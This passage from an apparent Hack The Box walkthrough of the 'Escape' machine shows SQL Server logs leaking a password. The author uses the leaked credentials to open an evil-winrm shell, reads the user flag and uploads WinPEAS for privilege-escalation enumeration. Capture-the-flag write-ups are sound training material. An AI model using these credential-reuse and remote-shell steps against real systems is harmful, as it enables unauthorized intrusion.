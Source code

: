 ```
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
2022-11-18 13:43:07.76 spid51      Using 'xpstar.dll' version '2019.150.2000' to execute extended stored procedure 'xp_sqlagent_is_starting'. This is an informational message only; no user action is required.
2022-11-18 13:43:08.24 spid51      Changed database context to 'master'.
2022-11-18 13:43:08.24 spid51      Changed language setting to us_english.
2022-11-18 13:43:09.29 spid9s      SQL Server is terminating in response to a 'stop' request from Service Control Manager. This is an informational message only. No user action is required.
2022-11-18 13:43:09.31 spid9s      .NET Framework runtime has been stopped.
2022-11-18 13:43:09.43 spid9s      SQL Trace was stopped due to server shutdown. Trace ID = '1'. This is an informational message only; no user action is required.
```

We can see a failed login attempt from `sequel.htb\Ryan.Cooper`. He tired again but put password instead of his login name to the password field and it ended up in the log. We now posses a new set of credentials:

`Ryan.Cooper:NuclearMosquito3`

Let's see if we can login.

```
➜  Escape evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cat ..\Desktop\user.txt
9998ebbbb***********************
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents>
```

We indeed can and now we can finally read the `user.txt` flag.

## Privilege escalation - Shell as Ryan.Cooper

### Post-Exploitation Enumeration

Enumerating the filesystem did not show anything interesting straight away so I decided to upload and run `WinPEAS`.

```
*Evil-WinRM* PS C:\programdata> upload /home/qurius/htb/boxes/medium/owned/Escape/winpeas.exe
   
Info: Uploading /home/qurius/htb/boxes/medium/owned/Escape/winpeas.exe to C:\programdata\winpeas.exe
   
Data: 2704724 bytes of 2704724 bytes copied
  
Info: Upload successful!
*Evil-WinRM* PS C:\programdata> .\winpeas.exe
.
.
.
ÉÍÍÍÍÍÍÍÍÍÍ¹ Enumerating machine and user certificate files                                                                                                                                  

```